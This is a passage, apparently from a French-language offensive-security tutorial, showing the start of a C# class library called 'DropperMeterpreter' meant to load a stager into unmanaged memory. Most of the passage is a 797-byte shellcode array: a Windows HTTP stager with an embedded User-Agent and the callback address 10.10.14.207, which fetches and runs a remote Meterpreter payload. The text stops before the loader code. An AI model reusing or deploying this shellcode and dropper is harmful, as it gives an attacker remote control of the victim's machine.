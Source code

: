 Pour compiler l'assembly on va utiliser Visual Studio et Créer un nouveau projet C# de type `Bibliothèque de classes`. Voilà le code du programme qui va charger notre stager dans la mémoire non managée:

```cs
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace DropperMeterpreter
{

    public static class Globals
    {
        public static byte[] shellcode = new byte[797] { 0xfc, 0xe8, 0x89, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xd2, 0x64, 0x8b, 0x52, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf0, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x42, 0x3c, 0x01, 0xd0, 0x8b, 0x40, 0x78, 0x85, 0xc0, 0x74, 0x4a, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x8b, 0x58, 0x20, 0x01, 0xd3, 0xe3, 0x3c, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0x31, 0xc0, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 0xf4, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe2, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x58, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x86, 0x5d, 0x68, 0x6e, 0x65, 0x74, 0x00, 0x68, 0x77, 0x69, 0x6e, 0x69, 0x54, 0x68, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0x31, 0xff, 0x57, 0x57, 0x57, 0x57, 0x57, 0x68, 0x3a, 0x56, 0x79, 0xa7, 0xff, 0xd5, 0xe9, 0x84, 0x00, 0x00, 0x00, 0x5b, 0x31, 0xc9, 0x51, 0x51, 0x6a, 0x03, 0x51, 0x51, 0x68, 0x50, 0x00, 0x00, 0x00, 0x53, 0x50, 0x68, 0x57, 0x89, 0x9f, 0xc6, 0xff, 0xd5, 0xeb, 0x70, 0x5b, 0x31, 0xd2, 0x52, 0x68, 0x00, 0x02, 0x40, 0x84, 0x52, 0x52, 0x52, 0x53, 0x52, 0x50, 0x68, 0xeb, 0x55, 0x2e, 0x3b, 0xff, 0xd5, 0x89, 0xc6, 0x83, 0xc3, 0x50, 0x31, 0xff, 0x57, 0x57, 0x6a, 0xff, 0x53, 0x56, 0x68, 0x2d, 0x06, 0x18, 0x7b, 0xff, 0xd5, 0x85, 0xc0, 0x0f, 0x84, 0xc3, 0x01, 0x00, 0x00, 0x31, 0xff, 0x85, 0xf6, 0x74, 0x04, 0x89, 0xf9, 0xeb, 0x09, 0x68, 0xaa, 0xc5, 0xe2, 0x5d, 0xff, 0xd5, 0x89, 0xc1, 0x68, 0x45, 0x21, 0x5e, 0x31, 0xff, 0xd5, 0x31, 0xff, 0x57, 0x6a, 0x07, 0x51, 0x56, 0x50, 0x68, 0xb7, 0x57, 0xe0, 0x0b, 0xff, 0xd5, 0xbf, 0x00, 0x2f, 0x00, 0x00, 0x39, 0xc7, 0x74, 0xb7, 0x31, 0xff, 0xe9, 0x91, 0x01, 0x00, 0x00, 0xe9, 0xc9, 0x01, 0x00, 0x00, 0xe8, 0x8b, 0xff, 0xff, 0xff, 0x2f, 0x6e, 0x68, 0x37, 0x4f, 0x00, 0x23, 0x6e, 0x65, 0x9b, 0xf6, 0x14, 0x96, 0x54, 0x0e, 0xd4, 0xa5, 0x23, 0x30, 0x34, 0x8c, 0x5d, 0x2c, 0x56, 0x03, 0x3f, 0x8d, 0x6a, 0x5a, 0x88, 0xb8, 0x51, 0xf4, 0x3c, 0x13, 0x01, 0x79, 0xc0, 0x47, 0x0b, 0x2c, 0x50, 0xde, 0x12, 0x37, 0x51, 0x60, 0x52, 0xfa, 0xd5, 0xe6, 0x15, 0xfa, 0xc8, 0xb8, 0x31, 0x99, 0xe4, 0x8e, 0x6a, 0x47, 0x04, 0xd1, 0x9c, 0xa1, 0xb1, 0xf3, 0xbf, 0x01, 0x2e, 0x32, 0xd1, 0xf1, 0xbb, 0xad, 0xd9, 0x7e, 0x26, 0x95, 0x00, 0x55, 0x73, 0x65, 0x72, 0x2d, 0x41, 0x67, 0x65, 0x6e, 0x74, 0x3a, 0x20, 0x4d, 0x6f, 0x7a, 0x69, 0x6c, 0x6c, 0x61, 0x2f, 0x35, 0x2e, 0x30, 0x20, 0x28, 0x63, 0x6f, 0x6d, 0x70, 0x61, 0x74, 0x69, 0x62, 0x6c, 0x65, 0x3b, 0x20, 0x4d, 0x53, 0x49, 0x45, 0x20, 0x39, 0x2e, 0x30, 0x3b, 0x20, 0x57, 0x69, 0x6e, 0x64, 0x6f, 0x77, 0x73, 0x20, 0x4e, 0x54, 0x20, 0x36, 0x2e, 0x31, 0x3b, 0x20, 0x57, 0x4f, 0x57, 0x36, 0x34, 0x3b, 0x20, 0x54, 0x72, 0x69, 0x64, 0x65, 0x6e, 0x74, 0x2f, 0x35, 0x2e, 0x30, 0x3b, 0x20, 0x4d, 0x41, 0x4c, 0x43, 0x4a, 0x53, 0x29, 0x0d, 0x0a, 0x00, 0x8b, 0x10, 0x65, 0x14, 0xf4, 0x7e, 0xec, 0x01, 0xe9, 0x16, 0x2e, 0x3d, 0x76, 0x34, 0x0d, 0x0e, 0xb1, 0x02, 0x56, 0x5b, 0xe4, 0x5a, 0x75, 0xbd, 0x32, 0xc5, 0xe3, 0x2c, 0xf1, 0x95, 0x36, 0x8a, 0x7f, 0x49, 0x9f, 0x0d, 0x4b, 0x50, 0x04, 0x46, 0x67, 0x3e, 0x0a, 0xf7, 0x36, 0xb8, 0xb5, 0x10, 0x2f, 0x26, 0xf3, 0x6e, 0x63, 0xc9, 0x7d, 0x78, 0x0f, 0x85, 0x20, 0x3c, 0x25, 0x78, 0x40, 0x30, 0x59, 0x61, 0x1b, 0x54, 0xdd, 0xa2, 0x4e, 0xae, 0x8b, 0x85, 0x84, 0xd3, 0x15, 0xd5, 0xeb, 0xac, 0x77, 0xdc, 0xa1, 0x4a, 0x40, 0x63, 0xb9, 0x0f, 0x3c, 0x77, 0x11, 0xde, 0x80, 0xd9, 0x52, 0x45, 0x52, 0x61, 0xec, 0x86, 0xd2, 0x3e, 0x3e, 0x6f, 0xb6, 0x77, 0x24, 0xf6, 0x69, 0xae, 0x4f, 0x01, 0xce, 0x3d, 0x18, 0x29, 0x29, 0x3d, 0xf6, 0x7a, 0xc9, 0x14, 0x25, 0x34, 0x2f, 0x57, 0x95, 0xbc, 0x26, 0xd5, 0x00, 0x17, 0x17, 0x00, 0x25, 0x59, 0xb6, 0xdc, 0x5e, 0xd7, 0x89, 0xfa, 0x11, 0x4b, 0x35, 0x04, 0x10, 0x57, 0x33, 0x25, 0x8f, 0xcd, 0x8f, 0x7c, 0x72, 0x12, 0x28, 0x7c, 0x1d, 0xad, 0xbb, 0x98, 0x0e, 0x63, 0xa3, 0x1b, 0x98, 0xc5, 0x68, 0x39, 0x08, 0xed, 0x5d, 0x16, 0xb8, 0x6a, 0xe5, 0xaa, 0xa9, 0x94, 0x82, 0x24, 0x7e, 0x0d, 0x8a, 0x0d, 0xbe, 0x0f, 0x19, 0x65, 0x86, 0xcd, 0x4a, 0xc2, 0x4b, 0xef, 0x55, 0x81, 0x74, 0xeb, 0x19, 0x82, 0x3e, 0x21, 0x68, 0xdb, 0x73, 0xdb, 0xee, 0x46, 0x00, 0x68, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x6a, 0x40, 0x68, 0x00, 0x10, 0x00, 0x00, 0x68, 0x00, 0x00, 0x40, 0x00, 0x57, 0x68, 0x58, 0xa4, 0x53, 0xe5, 0xff, 0xd5, 0x93, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x01, 0xd9, 0x51, 0x53, 0x89, 0xe7, 0x57, 0x68, 0x00, 0x20, 0x00, 0x00, 0x53, 0x56, 0x68, 0x12, 0x96, 0x89, 0xe2, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0xc6, 0x8b, 0x07, 0x01, 0xc3, 0x85, 0xc0, 0x75, 0xe5, 0x58, 0xc3, 0xe8, 0xa9, 0xfd, 0xff, 0xff, 0x31, 0x30, 0x2e, 0x31, 0x30, 0x2e, 0x31, 0x34, 0x2e, 0x32, 0x30, 0x37, 0x00, 0x3a, 0xde, 0x68, 0xb1 };
    }
```